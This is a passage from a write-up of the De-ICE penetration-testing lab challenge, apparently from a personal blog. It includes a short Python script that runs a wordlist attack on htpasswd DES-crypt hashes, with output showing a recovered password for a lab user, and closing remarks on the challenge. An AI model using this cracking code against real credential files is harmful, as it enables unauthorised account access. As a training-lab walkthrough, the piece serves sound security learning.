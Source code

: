 ```python
#!/usr/bin/env python
import crypt, sys
 
if __name__ == "__main__":
    wordlist = sys.argv[1]
    htfile = sys.argv[2]
    print "using wordlist:", wordlist
    print "using htaccess:", htfile
 
    for line in open(htfile):
        user = line.split(":")[0].strip()
        ciphertext = line.split(":")[1].strip()
        salt = ciphertext[:2]
        print "ciphertext:", ciphertext
        print "salt:", salt
        for word in open(wordlist):
            guess = crypt.crypt(word.strip(), salt)
            if guess == ciphertext:
                print "  *  password for %s is %s" % (user, word.strip())
                sys.exit(0)
```

The script takes two arguments. The first is the wordlist, and the second is the htpasswd file:

```text
root@syconium# crackht /pentest/passwords/wordlists/darkc0de.lst htpasswd 
using wordlist: /pentest/passwords/wordlists/darkc0de.lst
using htpasswd: htpasswd
ciphertext: bS.PQ9hVYEqrQ
salt: bS
  *  password for aadams is complexi
```

I was able to get the password for aadams. Not really usable at this point, but a nice bonus in any case.

This challenge was a lot of fun and took me several hours over the course of about a week to complete. The website states that it takes approximately 40 hours to complete the challenge. I probably hit close to 30 hours, and would have probably done it in less had I known there was a second web server in the challenge. Once I discovered the second web server, I blew through the rest of the challenge in a breeze.

That's it for the De-ICE hacking challenge. I recommend giving it a go if you're interested in getting your feet wet in penetration testing. 

